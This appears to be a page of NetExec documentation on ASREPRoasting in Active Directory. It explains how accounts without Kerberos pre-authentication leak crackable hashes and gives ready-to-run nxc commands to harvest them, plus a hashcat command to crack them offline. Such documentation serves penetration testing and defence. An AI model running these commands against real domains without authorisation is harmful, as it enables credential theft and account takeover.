 # ASREPRoasting

### Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required

## TIP: You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain

# Without authentication

### The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. 

#### nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt

### Using a wordlist, you can find wordlists of username here

#### nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt

### Set the password value to '' to perform the test without authentication

# With authentication

### If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

#### nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt

## TIP: Use option kdcHost when the domain name resolution fail

#### nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name

# Cracking with hashcat

### To crack hashes on the file output.txt with hashcat use the following options:

#### hashcat -m 18200 output.txt wordlist

